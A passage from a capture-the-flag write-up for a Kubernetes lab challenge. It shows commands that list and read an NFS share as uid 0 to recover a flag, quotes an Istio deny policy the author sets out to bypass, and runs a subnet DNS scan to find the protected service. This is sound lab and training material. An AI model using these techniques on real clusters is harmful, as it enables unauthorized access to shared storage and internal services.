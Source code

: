```bash
> dig +short fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com
192.168.124.98
> nfs-ls nfs://192.168.124.98
Failed to mount nfs share : mount_cb: nfs_service failed
# Times out
```

Looked at some nfs-ls writeups and libnfs found a workaround

```bash
> nfs-ls nfs://192.168.124.98/?version=4.1
----------  1     1     1           73 flag.txt
> nfs-cat "nfs://192.168.124.98//flag.txt?version=4&uid=0"
wiz_k8s_lan_party{old-school-network-file-shares-infiltrated-the-cloud!}
```

## Challenge 4 - The Beauty and The Ist

> Apparently, new service mesh technologies hold unique appeal for ultra-elite users (root users). Don't abuse this power; use it responsibly and with caution.

{% code title="Policy" overflow="wrap" %}
```yaml
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: istio-get-flag
  namespace: k8s-lan-party
spec:
  action: DENY
  selector:
    matchLabels:
      app: "{flag-pod-name}"
  rules:
  - from:
    - source:
        namespaces: ["k8s-lan-party"]
    to:
    - operation:
        methods: ["POST", "GET"]
```
{% endcode %}

The policy shows us that there is an endpoint `istio-get-flag` we can request the flag from. However the HTTP verbs POST and GET are denied by an ISTIO policy which we need to bypass.

We know the endpoint but not the name of the service. Lets do a dnscan to poke around and find out .

```bash
> env | grep HOST 
KUBERNETES_SERVICE_HOST=10.100.0.1
> dnscan -subnet 10.100.0.1/16
10.100.224.159 istio-protected-pod-service.k8s-lan-party.svc.cluster.local.
```
